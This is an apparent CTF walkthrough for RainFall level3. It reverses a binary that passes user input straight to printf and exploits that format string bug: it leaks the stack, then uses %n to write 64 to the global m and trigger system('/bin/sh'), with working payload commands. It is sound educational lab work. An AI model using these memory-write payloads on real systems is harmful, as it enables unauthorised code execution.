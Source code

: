 # Walkthrough

## Reversing

Let's reverse this thing:
```c
void main(void)
{
    v();
    return;
}

void v(void)
{
    char local_20c [520];

    fgets(local_20c,512,stdin);
    printf(local_20c);
    if (m == 64) {
        fwrite("Wait what?!\n",1,12,stdout);
        system("/bin/sh");
    }
    return;
}
```

Pretty obvius, it's clear that this is a format string vuln.

## Format String

We can do something like this to print the stack:
```bash
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

This works, because we instruct the printf-function to retrieve five parameters
from the stack and display them as 8-digit padded hexadecimal numbers.

Isn't it cool? I learned from this vuln existance in `42ctf.org`, so It's cool
to see that a rainfall challenge has it also.

Back then I needed to loop a list and print the `char*` of the last node, this
time is different, we probably need to change the value of `m`.

Let's play a little, and see if we can see our string in the stack:
```bash
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

To make it clear, let's run:
```bash
level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
```

We can see our input in the 4 position.

Since the binary does not have `PIE`, the address are always the same, so...

`printf` can also index to an arbitrary "argument" with the following syntax:
`%n$x` (where `n` is the decimal index of the argument you want). As an example,
if we want to leak our own buffer:
```bash
echo -e 'A%4$c' | ./level3
```

That would print our `A`, and the format `%4$c` that will be our `A`.

This is cool because with this vuln we can write an address, and dereference it
with `%4$c`, but, what we need to do is to overwrite the value of `m`...

## Exploit

The holy grail of exploitation is to take control of the instruction pointer
of a process. In most cases the instruction pointer (often named IP or PC) is a
register in the CPU and cannot be modified directly, since only machine
instructions can change it. But if we are able to issue those machine
instructions we already need to have control.

To accomplish this, we can use the `printf` specifier `%n`, that will write the
number of bytes already printed into a variable of our choice.

As an example of `%n`, this would print `i = 6`:
```c
int i;
printf ("foobar%n\n", &i);
printf ("i = %d\n", i);
```

Cool, so we can use `%n` to save the current bytes, but how can we "select"
where to save it? Well, everytime `printf` pops an argument, let's say, `%p`,
we increase the internal stack pointer of the format function by 4 bytes.

So, remember `%n` writes to an address, that means it writes to a memory
location, so, knowing that our string starts at 3 * 4 bytes...

First, obtain the address of the global variable `m`, with a decompiler or with
`nm`, that's the address we want to write to: `0804988c`

So our payload starts with the address we wanna writo to (in little endian):
```printf
printf '\x8c\x98\x04\x08' + "..." | ./level3
```

Then, we need to move the internal stack pointer 3 * 4 bytes, take this for
example:
```bash
level3@RainFall:~$ ./level3
AAAA%p%p%p%c
AAAA0x2000xb7fd1ac00xb7ff37d0A
```

We move the internal pointer 3 * 4 bytes, we do that with three `%p`, so next
time `printf` "reads an argument" from the stack, it will be from the start of
our format string, that's why the `%c` is printing an `A`.

So, `%n` will indeed save the written bytes to the direction we want:
```bash
printf '\x8c\x98\x04\x08%%p%%p%%p%%n\n' | ./level3
```

The only problem now is that we need `m` to be `64`, so, but knowing that `%n`
writes the number of bytes written up to that point... We just need to write
64 bytes before the `%n`, so just add bytes:
```bash
printf '\x8c\x98\x04\x08%%p%%p%%pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%%n\n' | ./level3
```

*Note: our `%p` where printing: `0x2000xb7fd1ac00xb7ff37d0`, thats 25 bytes already, plus the initial address 4 bytes, we need 35 'A'.*

Okey, that worked!

But, since the input ends, `/bin/sh` exits, we need to send the payload and
restore our stdin as input as we did in previous levels, let's create a script.

Check `./resources/exploit.sh`.

And that's it, another level, gg ez.
